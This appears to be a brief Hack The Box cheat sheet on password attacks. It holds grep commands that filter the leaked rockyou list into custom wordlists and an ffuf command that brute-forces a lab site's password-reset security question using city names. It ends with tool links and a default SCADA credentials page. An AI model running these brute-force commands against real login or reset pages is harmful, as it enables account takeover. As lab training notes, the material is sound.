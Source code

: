 ### Brute Forcing Passwords
```
[/htb]$ grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep -E '^.{8,12}$' | wc -l
```
```
[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
### Vulnerable Password Reset (city)
```
[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```
```
[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
# Useful Links

[SCADA HMI Username/Password](https://www.192-168-1-1-ip.co/router/advantech/advantech-webaccess-browser-based-hmi-and-scada-software/11215/)

[SecLists](https://github.com/danielmiessler/SecLists)

[EpochConverter](https://www.epochconverter.com/)

[CyberChef](https://gchq.github.io/)

[List_of_file_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) 

[Decodify](https://github.com/s0md3v/Decodify)

[world-cities.csv](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv)
